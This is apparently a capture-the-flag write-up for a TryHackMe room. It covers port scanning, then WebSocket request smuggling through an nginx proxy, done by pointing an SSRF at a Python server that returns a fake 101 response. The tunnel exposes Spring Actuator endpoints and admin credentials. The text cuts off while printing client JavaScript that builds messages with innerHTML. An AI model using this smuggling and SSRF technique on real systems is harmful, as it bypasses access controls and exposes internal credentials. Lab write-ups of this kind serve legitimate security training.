
# Scenario 

El Bandito, the new identity of the infamous [Jack the Exploiter](https://tryhackme.com/jr/bandit), has plunged into the Web3 domain with a devious token scam. By exploiting the decentralized essence of blockchain, he crafted and circulated fraudulent tokens, deceiving investors and shaking the foundational trust of the decentralized finance DeFi ecosystem.  

As we embark on this new challenge, it becomes clear that the stakes are higher than ever. To succeed, we must infiltrate his network, decode his strategies, and anticipate his moves before he can strike again.

The mission has evolved: now, we must capture **El Bandito**. This requires a deep dive into the digital underworld, using cunning and technical skills to outmaneuver him and restore security.

We request your help in smuggling all the flags.  
  
*Note*: Please allow 5 minutes for the **VM** to properly boot up.

# Questions



---

# First flag

---

## Reconnaissance

Let's start by scanning ports using `nmap`:

```bash
┌──(nutavut㉿kali-omen)-[~]
└─$ nmap -sC -sV 10.48.187.150    
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-08 09:58 +0700
Nmap scan report for elbandito.thm (10.48.187.150)
Host is up (0.099s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:8a:ca:a2:3d:ea:5a:fb:c2:7b:a5:cf:e5:f3:92:13 (RSA)
|   256 9b:6e:d1:4e:aa:70:85:7b:5e:91:09:0b:68:08:ca:7a (ECDSA)
|_  256 79:55:e1:1c:3c:85:cd:49:aa:77:bf:7e:61:46:9f:f5 (ED25519)
80/tcp   open  ssl/http El Bandito Server
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: El Bandito Server
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Date: Sun, 08 Nov 2026 02:59:43 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 1; mode=block
|     Feature-Policy: microphone 'none'; geolocation 'none';
|     Age: 0
|     Server: El Bandito Server
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sun, 08 Nov 2026 02:58:50 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 58
|     Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 1; mode=block
|     Feature-Policy: microphone 'none'; geolocation 'none';
|     Age: 0
|     Server: El Bandito Server
|     Accept-Ranges: bytes
|     Connection: close
|     nothing to see <script src='/static/messages.js'></script>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Sun, 08 Nov 2026 02:58:50 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 0
|     Allow: OPTIONS, GET, POST, HEAD
|     Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     X-XSS-Protection: 1; mode=block
|     Feature-Policy: microphone 'none'; geolocation 'none';
|     Age: 0
|     Server: El Bandito Server
|     Accept-Ranges: bytes
|     Connection: close
|   RTSPRequest: 
|_    HTTP/1.1 400 Bad Request
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Subject Alternative Name: DNS:localhost
| Not valid before: 2021-04-10T06:51:56
|_Not valid after:  2031-04-08T06:51:56
631/tcp  open  ipp      CUPS 2.4
|_http-title: Bad Request - CUPS v2.4.12
|_http-server-header: CUPS/2.4 IPP/2.1
8080/tcp open  http     nginx
|_http-title: Site doesn't have a title (application/json;charset=UTF-8).
|_http-favicon: Spring Java Framework
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.99%T=SSL%I=7%D=11/8%Time=6AEFE56A%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,1E5,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2008\x20Nov\
SF:x202026\x2002:58:50\x20GMT\r\nContent-Type:\x20text/html;\x20charset=ut
SF:f-8\r\nContent-Length:\x2058\r\nContent-Security-Policy:\x20default-src
SF:\x20'self';\x20script-src\x20'self';\x20object-src\x20'none';\r\nX-Cont
SF:ent-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-XSS
SF:-Protection:\x201;\x20mode=block\r\nFeature-Policy:\x20microphone\x20'n
SF:one';\x20geolocation\x20'none';\r\nAge:\x200\r\nServer:\x20El\x20Bandit
SF:o\x20Server\r\nAccept-Ranges:\x20bytes\r\nConnection:\x20close\r\n\r\nn
SF:othing\x20to\x20see\x20<script\x20src='/static/messages\.js'></script>"
SF:)%r(HTTPOptions,1CB,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2008\x20N
SF:ov\x202026\x2002:58:50\x20GMT\r\nContent-Type:\x20text/html;\x20charset
SF:=utf-8\r\nContent-Length:\x200\r\nAllow:\x20OPTIONS,\x20GET,\x20POST,\x
SF:20HEAD\r\nContent-Security-Policy:\x20default-src\x20'self';\x20script-
SF:src\x20'self';\x20object-src\x20'none';\r\nX-Content-Type-Options:\x20n
SF:osniff\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-XSS-Protection:\x201;\x20
SF:mode=block\r\nFeature-Policy:\x20microphone\x20'none';\x20geolocation\x
SF:20'none';\r\nAge:\x200\r\nServer:\x20El\x20Bandito\x20Server\r\nAccept-
SF:Ranges:\x20bytes\r\nConnection:\x20close\r\n\r\n")%r(RTSPRequest,1C,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(FourOhFourRequest,26C,"HTT
SF:P/1\.1\x20404\x20NOT\x20FOUND\r\nDate:\x20Sun,\x2008\x20Nov\x202026\x20
SF:02:59:43\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCont
SF:ent-Length:\x20207\r\nContent-Security-Policy:\x20default-src\x20'self'
SF:;\x20script-src\x20'self';\x20object-src\x20'none';\r\nX-Content-Type-O
SF:ptions:\x20nosniff\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-XSS-Protectio
SF:n:\x201;\x20mode=block\r\nFeature-Policy:\x20microphone\x20'none';\x20g
SF:eolocation\x20'none';\r\nAge:\x200\r\nServer:\x20El\x20Bandito\x20Serve
SF:r\r\nConnection:\x20close\r\n\r\n<!doctype\x20html>\n<html\x20lang=en>\
SF:n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>\n<p>The\x20r
SF:equested\x20URL\x20was\x20not\x20found\x20on\x20the\x20server\.\x20If\x
SF:20you\x20entered\x20the\x20URL\x20manually\x20please\x20check\x20your\x
SF:20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 153.31 seconds

```


**Ports 22, 80, 631, and 8080** are open. The port 8080 suggests a Java Spring application.

Next, we'll use `gobuster` to scan the directories of the web application 

We don't find much on **port 80**.

**Port 8080** provides more directories, but most of them are forbidden.

---

## Web Enumeration

Let's start enumerating the web application on **port 8080**, since we have more endpoints than on port 80 

I found the **burn token** page interesting. Since it receives user input, this might be our attack surface. 

View the source, and we can see that the page uses `WebSocket`.


---

## Request Smuggling via WebSocket


Inspect the requests on `burn.html`, and we find a **WebSocket request**. This gives us a reason to test for **WebSocket request smuggling** in this challenge.

If the proxy and backend disagree about whether the connection has upgraded, **WebSocket request smuggling** may let us bypass the **proxy restrictions**. Since this is Spring application, let's check whether we can reach sensitive Actuator endpoints.


Send the `/ws` request to Repeater, and we find that `/ws` **returns 404 (Not Found)**.
From what I have learnt in the [**WebSocket HTTP smuggling room**](https://tryhackme.com/room/wsrequestsmuggling), a malformed upgrade request may trick a vulnerable proxy into treating the connection as a **WebSocket** tunnel while the backend still uses HTTP.

One approach is changing `Sec-WebSocket-Version` to an invalid version number like `777`. The backend may reject the upgrade with `426 Upgrade Required` and keep using HTTP. If a vulnerable proxy starts tunnelling without checking that the backend returned `101 Switching Protocols`, we may be able to send further HTTP requests through that tunnel.



This attempt doesn't bypass the proxy. We can see the page response followed by `400 Bad Request` from nginx, but we don't get the `/env` data. This result alone doesn't prove the proxy is secure, it only shows that this malformed request didn't work.

---

## Tricking the Proxy

The simple malformed request didn't work, so let's try to make the proxy believe a WebSocket connection has been established. We need the backend to return a fake `101 Switching Protocols` response while continuing to process HTTP requests.

Another approach is taking advantage of an **SSRF** vulnerability.

On the `service` page, we can see an online status for `http://bandito.websocket.thm` and `http://bandito.public.thm`

Let's try intercepting the request and changing the url value to our attack server.

**Create attack server using python script:**
```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```


**Start the server:**



Then change the `url` to our attack server on port `5555` and keep the WebSocket upgrade headers. The server returns a fake `101` response, which the status-check endpoint passes back to the proxy.


Now, we get a `101` response followed by a separate `200` response containing the `/env` data. This shows the proxy is tunnelling our appended HTTP request while the backend still processes HTTP. Since I didn't find anything useful in `/env`, let's try another path. I try `/trace` and find 


logs showing requests to `/admin-flag` and `/admin-creds`. So, let's request these paths.

`/admin-flag` contains our first flag


and at `/admin-creds`, we got the admin credentials. We might have to use these later.

---

# Second flag

## Inspect the Chat

Let's inspect another endpoint on port 80. 

The index page displays `nothing to see`, but let's view the source first.

the source reveals `/static/messages.js`. 

```javascript
document.addEventListener("DOMContentLoaded", function () {
	const discussions = document.querySelectorAll(".discussion");
	const messagesChat = document.querySelector(".messages-chat");
	const headerName = document.querySelector(".header-chat .name");
	const writeMessageInput = document.querySelector(".write-message");
	let userMessages = {
		JACK: [],
		OLIVER: [],
	};

	// Function to fetch messages from the server
	function fetchMessages() {
		fetch("/getMessages")
			.then((response) => {
				if (!response.ok) {
					throw new Error("Failed to fetch messages");
				}
				return response.json();
			})
			.then((messages) => {
				userMessages = messages;
				userMessages.JACK === undefined
					? (userMessages = { OLIVER: messages.OLIVER, JACK: [] })
					: userMessages.OLIVER === undefined &&
					  (userMessages = { JACK: messages.JACK, OLIVER: [] });

				displayMessages("JACK");
			})
			.catch((error) => console.error("Error fetching messages:", error));
	}

	// Function to display messages for the selected user
	function displayMessages(userName) {
		headerName.innerText = userName;
		messagesChat.innerHTML = "";
		userMessages[userName].forEach(function (messageData) {
			appendMessage(messageData);
		});
	}

	// Function to append a message to the chat area
	function appendMessage(messageData) {
		const newMessage = document.createElement("div");
		console.log({ messageData });
		newMessage.classList.add("message", "text-only");
		newMessage.innerHTML = `
           ${messageData.sender !== "Bot" ? '<div class="response">' : ""}
        <div class="text">${messageData}</div>
    ${messageData.sender !== "Bot" ? "</div>" : ""}
        `;
		messagesChat.appendChild(newMessage);
	}

	// Function to send a message to the server
	function sendMessage() {
		const messageText = writeMessageInput.value.trim();
		if (messageText !== "") {
			const activeUser = headerName.innerText;
			const urlParams = new URLSearchParams(window.location.search);
			const isBot =
